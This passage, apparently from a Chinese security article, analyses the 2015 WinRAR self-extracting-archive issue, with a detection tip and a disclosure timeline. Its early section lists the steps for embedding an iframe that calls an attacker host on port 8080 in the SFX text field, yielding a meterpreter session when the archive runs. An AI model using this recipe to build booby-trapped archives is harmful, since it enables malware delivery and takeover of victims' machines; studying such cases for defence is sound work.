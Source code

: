 如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/845544cd7a43e56e910930f7fa065cf391111ac0.jpg)

**（2）**生成SFX

```
选择一个文件右键并添加到压缩文件
选中Create SFX archive
点击Advanced
点击SFX options
点击Text and icon

```

在Text to display in SFX windows中输入如下代码：

```
<iframe src="http://192.168.40.131:8080/YrrArF9oTAQ7j"></iframe>

```

**（3）**运行sfx文件

双击后meterpreter即上线

5、分析
----

1.  这种在sfx文件中添加html代码的方法很久以前已经出现，比如早在08年已存在的Winrar挂马 相关链接：http://www.2cto.com/Article/200804/25081.html
2.  此漏洞的亮点在于使得MS14-064漏洞exp可以逃脱IE沙箱的限制
3.  发现是否包含SFX OLE 代码执行漏洞的方法：遇到后缀为.exe的压缩文件，右键-属性-注释，查看其中的内容如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/730879e6b8a43a2757df46ff273315b3d3c7c648.jpg)

0x02 poc之谜
==========

* * *

Vulnerability Lab和Malwarebytes以及各大网站夸大漏洞危害本就十分有趣，而poc作者的归属又引来了更加有趣的事情。

接下来根据搜集的信息整理出如下时间节点：

1、seclists.org曝出WinRAR 5.21代码执行漏洞
---------------------------------

文中公开Mohammad Reza Espargham的poc

日期：28/09/2015

相关链接：[http://seclists.org/fulldisclosure/2015/Sep/106](http://seclists.org/fulldisclosure/2015/Sep/106)

2、WinRar官方RARLabs作出第一次回应
------------------------

> 限制SFX模块中的HTML功能会影响正常用户使用，而且攻击者仍可利用旧版SFX模块、来自非UnRAR源代码的自定义模块、或者自建代码存档进行攻击 所以RARLabs拒绝为此提供补丁并再次提醒用户，无论任何文件，都应该确认其来源是否可信
